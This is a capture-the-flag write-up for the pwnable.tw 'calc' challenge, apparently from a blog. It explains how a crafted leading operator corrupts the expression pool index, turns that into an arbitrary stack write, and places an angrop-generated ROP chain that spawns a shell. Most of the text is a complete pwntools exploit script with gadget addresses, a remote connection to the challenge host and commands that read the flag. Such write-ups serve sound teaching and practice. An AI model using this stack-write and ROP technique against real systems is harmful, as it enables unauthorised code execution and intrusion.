 +++
title = 'pwnable.tw - calc'
tags = ['pwnable.tw', 'pwn', 'writeups']
+++
> Have you ever use Microsoft calculator?
```c
> checksec calc
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
A challenge testing reverse engineering and pwn skills. The steps to solve it are:
1. Locate the vulnerability in the `parse_expr` function for an arbitrary stack write.
2. Understand `eval` to use the stack write.
3. Create a ROP chain that calls `execve('/bin/sh', 0, 0)` to win.

## Vulnerability
The `parse_expr` has a buffer `int *pool` that stores all integers of the user-expression. `pool[0]` contains the current index for evaluation.

<img src="https://i.imgur.com/GTiySjS.png" title="source: imgur.com" height=200/>

If the first character of the input is an operator `+-*/%`, `pool[0]` gets modified, which allows us to arbitrarily modify values outside the original pool.

## Exploit
### Arbitrary write
If we enter `+`: the `eval` function does `pool[pool[0] - 1] += pool[pool[0]]`. e.g if we want to add +1234 to `pool[-12]`, we enter the expression `-12+1234`

For ease of use create a function that zeros out the current value and writes our new desired value.
```python
def write(offset: int, data: int):
    """Write data at offset relative to the pool pointer"""
    INT_MAX = 0x7fffffff
    prefix = b'*%d' % offset
    # Set current value to 0 by dividing by INT_MAX twice
    io.sendline(prefix + b'/' + str(INT_MAX).encode())
    io.sendline(prefix + b'/' + str(INT_MAX).encode())

    # Set data
    io.sendline(prefix + b'+' + str(data).encode())
```

### ROP-chain
At offset 362 is the return value from `calc` to `main`. This allows us to write arbitrary values, the **trigger** for the chain is an empty line.

To automatically generate the ropchain I use [angrop](https://github.com/angr/angrop).

```python
import angr, angrop
proj = angr.Project('./calc')
rop = proj.analyses.ROP()
rop.find_gadgets()
# Create a ROP chain that calls execve('/bin/sh', 0, 0)
chain = rop.execve(b'/bin/sh\0')
chain.print_payload_code()
```

Now we have a shell and can read the flag!

## Full code
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'calc')
context.terminal = ['tmux', 'new-window']

host = args.HOST or 'chall.pwnable.tw'
port = int(args.PORT or 10100)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
stub alarm
break *calc+186
continue
'''.format(**locals())

# -- Exploit goes here --

io = start()
io.recvline() # Banner

# We build a ROP chain to call system('/bin/sh')
def write(offset: int, data: int):
    """Write data to the stack at offset relative to the pool pointer"""
    INT_MAX = 0x7fffffff
    prefix = b'*%d' % offset
    # Set current value to 0 by dividing by INT_MAX twice
    io.sendline(prefix + b'/' + str(INT_MAX).encode())
    io.sendline(prefix + b'/' + str(INT_MAX).encode())

    # Set data
    io.sendline(prefix + b'+' + str(data).encode())

# Stack offset of return address to main (Our start point for the chain)
main_offset = 362

# /bin/sh Chain generated with angrop
chain = b""
chain += p32(0x80701c9) # add bh, bh; adc eax, 0x80ec9f0; pop edx; pop ecx; pop ebx; ret
chain += p32(0x80ebf48)
chain += p32(0x6e69622f)
chain += p32(0x0)
chain += p32(0x80503a8) # push eax; pop eax; mov dword ptr [edx + 0xb8], ecx; ret
chain += p32(0x80701c9) # add bh, bh; adc eax, 0x80ec9f0; pop edx; pop ecx; pop ebx; ret
chain += p32(0x80ebf4c)
chain += p32(0x68732f)
chain += p32(0x0)
chain += p32(0x80503a8) # push eax; pop eax; mov dword ptr [edx + 0xb8], ecx; ret
chain += p32(0x8058ffc) # pop eax; or dh, dh; ret
chain += p32(0xb)
chain += p32(0x80701d0) # pop edx; pop ecx; pop ebx; ret
chain += p32(0x0)
chain += p32(0x0)
chain += p32(0x80ec000)
chain += p32(0x8070880) # int 0x80

# Write the chain to the stack
for i in range(0, len(chain), 4):
    write(main_offset + i//4, u32(chain[i:i+4]))

# Trigger the chain by exiting calc
io.sendline(b'')

# Bask in the glory of our shell
io.sendline(b'echo WOHOOO it actually worked!')
io.sendline(b'id')
io.sendline(b'cat /home/calc/flag')
io.interactive()
```
